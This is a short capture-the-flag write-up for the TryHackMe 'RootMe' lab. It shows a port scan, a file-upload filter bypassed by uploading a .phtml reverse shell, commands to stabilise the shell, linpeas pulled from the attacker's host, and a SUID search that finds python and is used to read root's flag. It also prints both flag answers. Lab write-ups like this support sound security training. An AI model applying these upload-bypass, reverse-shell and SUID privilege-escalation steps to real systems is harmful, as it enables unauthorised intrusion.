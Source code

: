 # RootMe
- IP: 10.10.104.72

## Open Ports
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
## Port 80
- interesting directories
  - /uploads
  - /panel
    - /panel disallows php uploads
    - uploaded a reverse shell with .phtml extension

## Reverse shell
- Open NetCat
- Trigger reverse shell by navigating to /uploads/php-reverse-shell.phtml
- Stabilize shell
  - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
  - `export TERM=xterm`
  - `CTRL + Z`
  - `stty raw -echo; fg`

## Find first flag
- `find -name 'user.txt'`
  - /var/www/user.txt
- `cat /var/www/user.txt`
  - THM{y0u_g0t_a_sh3ll}

## Priviledge Escalation
- Use linPeas (download from host python3 server)
  - `./linpeas.sh | tee linlog.txt`
  - Result: python vulnerable
- Check if python has SUID permission
  - find / -perm /4000 2>/dev/null
  - /usr/bin/python
- Goal: root/root.txt
  - python -c 'print(open("/root/root.txt").read())'
  - THM{pr1v1l3g3_3sc4l4t10n}

SOLVED
